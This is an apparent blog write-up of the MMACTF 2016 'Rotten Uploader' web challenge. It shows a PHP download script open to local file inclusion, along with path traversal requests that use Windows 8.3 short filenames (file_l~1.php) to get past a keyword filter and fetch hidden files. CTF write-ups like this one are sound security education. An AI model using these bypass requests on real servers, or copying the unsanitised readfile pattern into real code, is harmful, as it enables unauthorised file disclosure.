 ```yaml
---
author: AnirudhAnand
layout: post
title: Abusing file inclusions using Windows 8.3 filename legacy shortcodes - MMACTF Rotten Uploader web 150 writeup
categories:
- ctf
summary: Using the legacy windows 8.3 filename short code, we bypass the filter to download files. (MMACTF 2016 web 150 writeup)
description: Using the legacy windows 8.3 filename short code, we bypass the filter to download files. (MMACTF 2016 web 150 writeup)
---
```


## Introduction

Rotten Uploader was a good challenge but it took a good amount of time to solve it despite being as easy challenge (ofcourse its easy once you know how to do it :P). So here is the challenge description:

```
Find the secret file.

http://rup.chal.ctf.westerns.tokyo/

Hint1 (2016/09/04 16:31)

The files/directories on the DOCUMENT_ROOT are below four.
download.php
file_list.php
index.php
uploads(directory)
The number of files in the DOCUMENT_ROOT/uploads is 5. The directory have "index.html".
You don't need scan tools.
```

## Challenge

We are presented with a site which can be used to download 3 files namely `test.cpp`, `test.rb` and `test.c`. The download happens through a file named `download.php`:

[http://rup.chal.ctf.westerns.tokyo/download.php?f=test.cpp](http://rup.chal.ctf.westerns.tokyo/download.php?f=test.cpp)

The first thing that comes to our mind after seeing the URL is to test for Local File Inclusion (LFI) and indeed it was vulnerable to LFI ! So lets download the source code of `download.php`.

File: `download.php`

{%highlight php lineos %}

<?php

header("Content-Type: application/octet-stream");

if(stripos($_GET['f'], 'file_list') !== FALSE) die();
readfile('uploads/' . $_GET['f']); // safe_dir is enabled.

?>

{%endhighlight%}

and index.php.

File: `index.php`

{%highlight php lineos %}

<?php
/**
 *
 */
include('file_list.php');
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0 Level 2//EN">
<html>
  <head>
    <title>Uploader</title>
  </head>
  <body>
    <h1>Simple Uploader</h1>
    <p>There are no upload features.</p>
    <h3>Files</h3>
    <table width="100%" border="1">
		  <tr>
			<th>#</th>
			<th>Filename</th>
			<th>Size</th>
			<th>Link</th>
		  </tr>
			  <?php foreach($files as $file): ?>
	<?php if($file[0]) continue; // visible flag ?>  
		  <tr>
			<td><?= $file[1]; ?></td>
			<td><?= $file[2]; ?></td>
			<td><?= $file[3]; ?> bytes</td>
			<td><a href="download.php?f=<?= $file[4]; ?>">Download</a></td>
		  </tr>
          <?php endforeach;?>
      </table>
  </body>
</html>

{%endhighlight%}

Till now we understood the following points:

1) The `uploads/` directory has 5 files in which 4 are known to us. So the 5th file (whose name we don't know yet) has to be the flag.

2) If we know the filename, we can download it via `download.php`. The only possible way to know the filename is to get the `file_list.php` which will contain the list of all files.

3) The string `file_list` has been blocked by an `stripos()` function check which is cannot be bypassed easily (as `stripos()` don't have any known bypasses).


## Solution:

It took a while to understand that the server is running windows. So the question arises, why do they configure the challenge on a windows machine while all others are on linux (Linux is usually prefered for web servers)? Then we came across a legacy windows feature called [`Windows 8.3 filename`](https://en.wikipedia.org/wiki/8.3_filename) and that lead us to the bypass !

So computing the filename, we can use `file_l~1.php` so the file can be download by sending the following request:`download.php?f=../file_l~1.php` and this got us the source code of `file_list.php`

File: `file_list.php`

{%highlight php lineos %}

<?php
$files = [
  [FALSE, 1, 'test.cpp', 1135, 'test.cpp'],
  [FALSE, 2, 'test.c', 74, 'test.c'],
  [TRUE, 3, 'flag_c82e41f5bb7c8d4b947c9586444578ade88fe0d7', 35, 'flag_c82e41f5bb7c8d4b947c9586444578ade88fe0d7'],
  [FALSE, 4, 'test.rb', 1446, 'test.rb'],
];

{%endhighlight%}

So now we know the filename in which flag is present and hence we can download it using the LFI: `download.php?f=flag_c82e41f5bb7c8d4b947c9586444578ade88fe0d7`

## References

1) [Windows 8.3 filename](https://en.wikipedia.org/wiki/8.3_filename)
